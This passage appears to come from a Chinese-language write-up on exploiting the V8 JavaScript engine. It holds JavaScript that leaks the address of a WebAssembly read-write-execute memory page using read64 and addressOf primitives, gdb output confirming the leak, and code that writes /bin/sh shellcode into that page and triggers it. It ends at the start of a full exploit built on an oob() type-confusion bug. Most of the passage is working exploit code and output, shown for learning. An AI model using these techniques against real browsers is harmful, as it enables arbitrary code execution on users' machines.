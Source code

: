 根据上述寻找思路，结合addressOf和read64原语，写出泄露RWX内存页起始地址的JS代码如下所示：

```assembly
var shared_info_addr = read64(f_addr + 0x18n) - 0x1n;
var wasm_exported_func_data_addr = read64(shared_info_addr + 0x8n) - 0x1n;
var wasm_instance_addr = read64(wasm_exported_func_data_addr + 0x10n) - 0x1n;
var rwx_page_addr = read64(wasm_instance_addr + 0x88n);

console.log("[*] leak rwx_page_addr: 0x" + hex(rwx_page_addr));
```

gdb调试结果如下：

```assembly
pwndbg> r
Starting program: browser/x64.release/d8 --allow-natives-syntax ./test.js
[*] leak wasm func addr: 0x00000c268c4223f8
[*] leak from: 0x00000c268c422410: 0x00000c268c4223c1
[*] leak from: 0x00000c268c4223c8: 0x00000c268c422399
[*] leak from: 0x00000c268c4223a8: 0x00000c268c422201
[*] leak from: 0x00000c268c422288: 0x00001194dbc9a000
[*] leak rwx_page_addr: 0x00001194dbc9a000
```

可以发现成功泄露了rwx内存页的起始地址，

后续只要利用任意地址写write64原语我们的shellcode写入这个rwx页，然后调用wasm函数接口即可触发我们的shellcode了，具体实现如下所示：

```assembly
/* /bin/sh for linux x64
 char shellcode[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f \x2f\x62\x69\x6e\x2f\x73\x68\x53 \x54\x5f\x52\x57\x54\x5e\x0f\x05";
*/
var shellcode = [
    0x2fbb485299583b6an,
    0x5368732f6e69622fn,
    0x050f5e5457525f54n
];

var data_buf = new ArrayBuffer(24);
var data_view = new DataView(data_buf);
var buf_backing_store_addr = addressOf(data_buf) + 0x20n;

write64(buf_backing_store_addr, rwx_page_addr);  //这里写入之前泄露的rwx_page_addr地址
data_view.setFloat64(0, i2f(shellcode[0]), true);
data_view.setFloat64(8, i2f(shellcode[1]), true);
data_view.setFloat64(16, i2f(shellcode[2]), true);

f();
```

完整利用

```assembly
var obj = {"a": 1};
var obj_array = [obj];
var float_array = [1.1];

var obj_array_map = obj_array.oob();
var float_array_map = float_array.oob();

var buf =new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
// 浮点数转换为64位无符号整数
function f2i(f){
    float64[0] = f;
    return bigUint64[0];
}
```